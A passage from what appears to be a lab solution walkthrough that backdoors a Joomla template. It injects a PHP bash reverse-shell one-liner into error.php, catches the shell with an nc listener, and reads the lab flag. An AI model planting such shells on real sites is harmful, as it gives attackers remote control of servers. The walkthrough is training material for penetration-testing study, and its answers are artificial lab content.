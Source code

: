 Once logged in, students need to click on `Extensions` -> `Templates` -> `Templates`:

![[HTB Solutions/CPTS/z. images/dd1e5160c8b6c95db005510c8d46bfb6_MD5.jpg]]

Students then need to click on "Protostar Details and Files":

![[HTB Solutions/CPTS/z. images/8657faf70eb95d9d810117d2fba71d6e_MD5.jpg]]

Subsequently, students need to click on `error.php` so that it can be edited:

![[HTB Solutions/CPTS/z. images/b0195b53ec2b706babed803e9599647a_MD5.jpg]]

Within `error.php`, students need to inject a PHP reverse shell one-liner and then click on `Save`:

Code: php

```php
exec("/bin/bash -c 'bash -i >& /dev/tcp/PWNIP/PWNPO 0>&1'");
```

![[HTB Solutions/CPTS/z. images/8ca54836739f71ca9fc8bd3e951ad613_MD5.jpg]]

Subsequently, students need to start an `nc` listener on Pwnbox/`PMVPN`, specifying the same port used in the PHP reverse-shell one-liner:

Code: shell

```shell
nc -nvlp PWNPO
```

```
┌─[us-academy-1]─[10.10.14.6]─[htb-ac413848@htb-2h8umziw0o]─[~]
└──╼ [★]$ nc -nvlp 9001

Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
```

Students then need to navigate to `http://dev.inlanefreight.local/templates/protostar/error.php` to initiate the call-back and catch the reverse-shell on the listening port:

```
Ncat: Connection from 10.129.87.35.
Ncat: Connection from 10.129.87.35:55568.
bash: cannot set terminal process group (1056): Inappropriate ioctl for device
bash: no job control in this shell
www-data@app01:/var/www/dev.inlanefreight.local/templates/protostar$
```

At last, students will be able to print out the flag file "flag\_6470e394cbf6dab6a91682cc8585059b.txt", which is under the directory `/var/www/dev.inlanefreight.local/`:

Code: shell

```shell
cat ../../flag_6470e394cbf6dab6a91682cc8585059b.txt
```
